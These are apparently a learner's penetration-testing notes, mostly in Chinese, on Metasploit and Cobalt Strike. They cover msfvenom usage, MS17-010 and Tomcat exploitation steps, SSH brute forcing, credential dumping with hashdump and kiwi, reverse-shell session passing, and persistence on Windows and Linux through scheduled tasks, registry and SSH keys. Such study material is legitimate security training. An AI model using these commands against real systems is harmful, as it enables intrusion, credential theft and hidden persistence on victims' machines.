


## metersploit framework

subdomain扫域名

cap ip | sort |uniq  -c


msfdb


msfupdate


msf -a

x86_64==amd64


auxiliary 扫描

post        

encoder编码器


```sh
└─$ msfvenom                                                                                    
Error: No options
MsfVenom - a Metasploit standalone payload generator.
Also a replacement for msfpayload and msfencode.
Usage: /usr/bin/msfvenom [options] <var=val>
Example: /usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

Options:
    -l, --list            <type>     List all modules for [type]. Types are: payloads, encoders, nops, platforms, archs, encrypt, formats, all
    -p, --payload         <payload>  Payload to use (--list payloads to list, --list-options for arguments). Specify '-' or STDIN for custom
        --list-options               List --payload <value>'s standard, advanced and evasion options
    -f, --format          <format>   Output format (use --list formats to list)
    -e, --encoder         <encoder>  The encoder to use (use --list encoders to list)
        --service-name    <value>    The service name to use when generating a service binary
        --sec-name        <value>    The new section name to use when generating large Windows binaries. Default: random 4-character alpha string
        --smallest                   Generate the smallest possible payload using all available encoders
        --encrypt         <value>    The type of encryption or encoding to apply to the shellcode (use --list encrypt to list)
        --encrypt-key     <value>    A key to be used for --encrypt
        --encrypt-iv      <value>    An initialization vector for --encrypt
    -a, --arch            <arch>     The architecture to use for --payload and --encoders (use --list archs to list)
        --platform        <platform> The platform for --payload (use --list platforms to list)
    -o, --out             <path>     Save the payload to a file
    -b, --bad-chars       <list>     Characters to avoid example: '\x00\xff'
    -n, --nopsled         <length>   Prepend a nopsled of [length] size on to the payload
        --pad-nops                   Use nopsled size specified by -n <length> as the total payload size, auto-prepending a nopsled of quantity (nops minus payload length)
    -s, --space           <length>   The maximum size of the resulting payload
        --encoder-space   <length>   The maximum size of the encoded payload (defaults to the -s value)
    -i, --iterations      <count>    The number of times to encode the payload
    -c, --add-code        <path>     Specify an additional win32 shellcode file to include
    -x, --template        <path>     Specify a custom executable file to use as a template
    -k, --keep                       Preserve the --template behaviour and inject the payload as a new thread
    -v, --var-name        <value>    Specify a custom variable name to use for certain output formats
    -t, --timeout         <second>   The number of seconds to wait when reading the payload from STDIN (default 30, 0 to disable)
    -h, --help                       Show this message
└─$ msfvenom
错误：没有选项
MsfVenom - Metasploit 独立负载生成器。
也是 msfpayload 和 msfencode 的替代品。
用法：/usr/bin/msfvenom [options] <var=val>
示例：/usr/bin/msfvenom -p windows/meterpreter/reverse_tcp LHOST=<IP> -f exe -o payload.exe

选项：
    -l, --list <type> 列出 [type] 的所有模块。类型有：payloads、encoders、nops、platforms、archs、encrypt、formats、all
    -p, --payload <payload> 要使用的有效负载（--list 要列出的有效负载，--list-options 用于参数）。为自定义指定“-”或 STDIN
        --list-options 列出 --payload <value> 的标准、高级和规避选项
    -f, --format <format> 输出格式（使用 --list 格式列出）
    -e, --encoder <encoder> 要使用的编码器（使用 --list 编码器列出）
        --service-name <value> 生成服务二进制文件时使用的服务名称
        --sec-name <value> 生成大型 Windows 二进制文件时使用的新部分名称。默认值：随机 4 个字符的字母字符串
        --smallest 使用所有可用的编码器生成尽可能小的有效载荷
        --encrypt <value> 应用于 shellcode 的加密或编码类型（使用 --list encrypt 列出）
        --encrypt-key <value> 用于 --encrypt 的密钥
        --encrypt-iv <value> --encrypt 的初始化向量
    -a, --arch <arch> 用于 --payload 和 --encoders 的架构（使用 --list archs 列出）
        --platform <platform> --payload 的平台（使用 --list 平台列出）
    -o, --out <path> 将有效负载保存到文件中
    -b, --bad-chars <list> 避免使用的字符示例：'\x00\xff'
    -n, --nopsled <length> 将 [length] 大小的 nopsled 添加到有效负载上
        --pad-nops 使用 -n <length> 指定的 nopsled 大小作为总负载大小，自动预先添加数量的 nopsled（nops 减去负载长度）
    -s, --space <length> 结果有效载荷的最大大小
        --encoder-space <length> 编码有效载荷的最大大小（默认为 -s 值）
    -i, --iterations <count> 编码有效载荷的次数
    -c, --add-code <path> 指定要包含的附加 win32 shellcode 文件
    -x, --template <path> 指定用作模板的自定义可执行文件
    -k, --keep 保留 --template 行为并将有效负载作为新线程注入
    -v, --var-name <value> 指定用于某些输出格式的自定义变量名称
    -t, --timeout <second> 从 STDIN 读取有效负载时等待的秒数（默认为 30，0 表示禁用）
    -h, --help 显示此消息
```

msfvenom --list payload  列出payload


PoC，全称“Proof of Concept”，中文“概念验证”，常指一段漏洞证明的代码。

Exp，全称“Exploit”，中文“利用”，指利用系统漏洞进行攻击的动作。

Payload，中文“有效载荷”，指成功 exploit 之后，真正在目标系统执行的代码或指令。

Shellcode，简单翻译“shell 代码”，是 Payload 的一种，由于其建立正向/反向 shell 而得名。


```sh
#msf使用
db_nmap    nmap工具
db_import  导入结果（导入nmap扫描后的结果）
hosts查看导入的信息
servers查看端口信息

```


use heartbleed


set rhosts file:/xxx/xx.txt


services -p 443 -u -R配置到rhosts

run


```sh
services -p 22 -R
寻找

search ssh_login 


use 0

options

set threads 10

set user_file xxx.txt

set pass_file xxx.txt

shell--> session
sessions -h查看帮助
sessions -c whoami -i 2        在某个session执行命令
sessions -C meterpreter_command -i 执行msf命令
sessions -u 升级会话 创建新的session
```


## ms17-010

```sh
search ms17-010

use 0

services -p 445 -R

exploite

```


```sh
sessions里的功能
bg -->session后台
getuid -->获取权限
load -->
run -->运行脚本
use -->加载其他模块
load kiwi 加载账密信息
download -->下载
upload -->上传
execute -->运行程序

execute -f xxx.exe -a "参数"
reg -->注册表
screenshot -->截图
hashdump -->获取hash信息
```

```sh
tomcat 上传
search tomcat-mrg-upload
options
set rhosts 1.x.x.x
set rport xxxx

set httppassword tomcat
set httpusername tomcat
set lhosts 192.x.x.x

exploit
```

```sh
yum install openjdk@11
yum update


unzip cs.zip
./teamserver 192.168.xx.xx password

```

# cobaltstrike

Windows系统远控

 

与msf的payload通用


dump hashes   dump哈希值

elevate 提权

golden ticket 金票

one-liner 其余主机通过当前主机上险

run minicat 抓取密码

spawn as 降权

desktop(vnc) 远程桌面

spawn 生成新的会话


```sh
search ms17-010
use 0
set rhosts 192.168.21.70
set lhost 192.168.21SWW.122   
#kali 的ip监听
set lport 4444
#监听端口
exploit
#执行payload
收到回来的session


#session迁移-> cobaltstrike
use exploit/windows/local/payload_inject
# 使用此模块
set payload windows/x64/meterpreter/reverse_http
# 设置反弹的payload 

set lhost 192.168.21.14  
#cs服务器的ip
set lport 
#cs监听的端口
set session 1
#设置会话
run
执行


#cobalt strike --->metasploit
msf
use exploit/multi/handler

set payload windows/meterpreter/reverse_tcp

set lhost 192.168.21.122 

set lport 4444

run

cs  
spawn 
chose
```

sudo dhclient eth0

# 权限维持


注册表镜像劫持

reg add 添加注册表


`at 24:00:00 /every:M,T,W,TH,F,SA "c:\远控.exe"`

`schtasks /create /th "my app" /tr c:\cmd.exe /sc onstart（系统启动）`


与用户登录绑定，登录上线


schtasks /query /tn huorong 搜索开机启动






nssm    svc工具

创建服务

winsw


use exploit/windows/local/p

# Linux后门

crontab后门

开机启动项  

​	centos:/etc/rc.local  开机启动文件

nohup ping www.baidu.com & 后台执行不输出


cat /etc/bash_profile


ssh公钥  au中添加公钥


yum install supervisor 守护进程

supervisor 


```sh
1.& 最经常被用到

这个用在一个命令的最后，可以把这个命令放到后台执行

2.ctrl + z

可以将一个正在前台执行的命令放到后台，并且暂停

3.jobs

查看当前有多少在后台运行的命令

4.fg

将后台中的命令调至前台继续运行

如果后台中有多个命令，可以用 fg %jobnumber将选中的命令调出，%jobnumber是通过jobs命令查到的后台正在执行的命令的序号(不是pid)

5.bg

将一个在后台暂停的命令，变成继续执行

如果后台中有多个命令，可以用bg %jobnumber将选中的命令调出，%jobnumber是通过jobs命令查到的后台正在执行的命令的序号(不是pid)
```

